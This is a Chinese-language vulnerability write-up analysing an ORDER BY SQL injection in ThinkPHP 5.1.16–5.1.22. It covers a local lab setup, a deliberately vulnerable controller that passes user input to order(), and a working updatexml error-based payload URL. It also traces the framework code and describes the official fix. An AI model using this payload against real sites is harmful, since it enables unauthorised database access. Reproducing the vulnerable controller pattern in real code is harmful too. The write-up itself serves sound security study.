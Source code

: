# ThinkPHP5.1.x SQL注入(OrderBy)

Author: H3rmesk1t

Data: 2021.08.14

# 漏洞概要
- 本次漏洞存在于 Builder 类的 parseOrder 方法中，由于程序没有对数据进行很好的过滤，直接将数据拼接进 SQL 语句，最终导致 SQL 注入漏洞的产生
- 漏洞影响版本： 5.1.16<=ThinkPHP5<=5.1.22

# 初始配置
获取测试环境代码

```bash
composer create-project --prefer-dist topthink/think=5.1.22 tpdemo
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/dd8a746b98b14814b42c1b38f4a9a21b.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

将 composer.json 文件的 require 字段设置成如下

```bash
"require": {
        "php": ">=5.6.0",
        "topthink/framework": "5.1.22"
    },
```

然后执行 `composer update`

![在这里插入图片描述](https://img-blog.csdnimg.cn/9b78c4a288c5418a8752cc3c7c00157d.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

下载后的源码中，需要对 `application/index/controller/Index.php` 内容进行修改

```php
<?php
namespace app\index\controller;

class Index
{
    public function index()
    {
        $orderby = request()->get('orderby');
        $result = db('users')->where(['username' ='mochazz'])->order($orderby)->find();
        var_dump($result);
        return '<style type="text/css">*{ padding: 0; margin: 0; } div{ padding: 4px 48px;} a{color:#2E5CD5;cursor: pointer;text-decoration: none} a:hover{text-decoration:underline; } body{ background: #fff; font-family: "Century Gothic","Microsoft yahei"; color: #333;font-size:18px;} h1{ font-size: 100px; font-weight: normal; margin-bottom: 12px; } p{ line-height: 1.6em; font-size: 42px }</style><div style="padding: 24px 48px;"<h1>:) </h1><pThinkPHP V5.1<br/><span style="font-size:30px">12载初心不改（2006-2018） - 你值得信赖的PHP框架</span></p></div><script type="text/javascript" src="https://tajs.qq.com/stats?sId=64890268" charset="UTF-8"></script><script type="text/javascript" src="https://e.topthink.com/Public/static/client.js"></script><think id="eab4b9f840753f8e7"></think>';
    }
}
```

在 `config/database.php` 文件中配置数据库相关信息，并开启 `config/app.php` 中的 `app_debug` 和 `app_trace` ，创建数据库信息如下

```sql
create database thinkphp;
use thinkphp;
create table users(
	id int primary key auto_increment,
	username varchar(50) not null
);
insert into users(id,username) values(1,'H3rmesk1t');
```
# 漏洞利用

Payload

```bas
http://127.0.0.1/cms/public/index.php?orderby[id`|updatexml(1,concat(0x7,user(),0x7e),1)%23]=1 
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/c132f957a0b241d989339f8b8e2b74d7.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
# 漏洞分析

首先数据都会进入到 `Request` 类中的 `input` 方法，并且经过 `filterValue` 方法的过滤和强制类型转换并返回 `$data`

![在这里插入图片描述](https://img-blog.csdnimg.cn/a879dfacf595446e87b72613aa1e1c19.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

这里 `array_walk_recursive` 函数对数组中的成员递归调用 `filterValue` 过滤函数，但是 `filterValue` 过滤函数，不过滤数组的 `key` ， 只过滤了数组的 `value`，用户输入的数据会原样进入框架的 SQL 查询方法中，进入 `Query` 类

![在这里插入图片描述](https://img-blog.csdnimg.cn/cb404680cc874cf1b17cfcec3420ad1d.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

![在这里插入图片描述](https://img-blog.csdnimg.cn/3cf76fc4d95a4ffda18cab595387af93.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

恶意Payload 未经过任何过滤直接传递给 `options['order']`  中

![在这里插入图片描述](https://img-blog.csdnimg.cn/6ac2d9f671c44a7289913e6ee1bad32a.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

接着调用 `find` 方法，此处 `$this->connection` 是 `think/db/connectior/Mysql` 类 ，继承于 `Connection` 类，于是此处继续调用该类的 `find` 方法

![在这里插入图片描述](https://img-blog.csdnimg.cn/4dccfe114bc4402f9df5aae820915734.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
![在这里插入图片描述](https://img-blog.csdnimg.cn/6f81151b864a4ec99a7b8d65e1e0996a.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

该方法继续调用了 `$this->builder`, 即 `think/db/builder/Mysql` 类的 `select` 方法，该方法通过 `str_replace` 函数，将数据填充到SQL语句中

![在这里插入图片描述](https://img-blog.csdnimg.cn/24ff9d25efd4471584f51cad77e74cce.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

然后调用了 `parseOrder` 方法，跟进该方法，`$order` 是输入的数据，然后经过了 `parseKey` 方法处理后返回给 `$array`，跟进查看该方法的实现

```php
protected function parseOrder(Query $query, $order)
    {
        if (empty($order)) {
            return '';
        }

        $array = [];

        foreach ($order as $key =$val) {
            if ($val instanceof Expression) {
                $array[] = $val->getValue();
            } elseif (is_array($val)) {
                $array[] = $this->parseOrderField($query, $key, $val);
            } elseif ('[rand]' == $val) {
                $array[] = $this->parseRand($query);
            } else {
                if (is_numeric($key)) {
                    list($key, $sort) = explode(' ', strpos($val, ' ') ? $val : $val . ' ');
                } else {
                    $sort = $val;
                }

                $sort    = strtoupper($sort);
                $sort    = in_array($sort, ['ASC', 'DESC'], true) ? ' ' . $sort : '';
                $array[] = $this->parseKey($query, $key, true) . $sort;
            }
        }

        return ' ORDER BY ' . implode(',', $array);
    }
```

跟进 `thinkphp/library/think/db/builder/Mysql.php`，该方法在变量 `$key` 的两端添加了反引号进行拼接并且没有任何过滤

![在这里插入图片描述](https://img-blog.csdnimg.cn/62ae9f308d0e4ba88cb53cd6ec2c6862.png#pic_center)

最终返回了一个带有 ORDER BY 的 SQL 注入 payload 给要执行的SQL语句，实现 ORDER BY 注入

![在这里插入图片描述](https://img-blog.csdnimg.cn/cfac012337e04fa88fedf30be2ed7973.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

完整的方法调用，从下往上

![在这里插入图片描述](https://img-blog.csdnimg.cn/def8944016494bcb8a55675674e0c0b2.png#pic_center)
# 漏洞修复

官方的修复方法是：在拼接字符串前对变量进行检查，看是否存在 `)、#` 两个符号

![在这里插入图片描述](https://img-blog.csdnimg.cn/c8018d097195471d915b005dc70f489b.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
# 攻击总结

参考Mochazz师傅的审计流程

![在这里插入图片描述](https://img-blog.csdnimg.cn/8cc7f936972f41769c25c9f623ad8f07.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
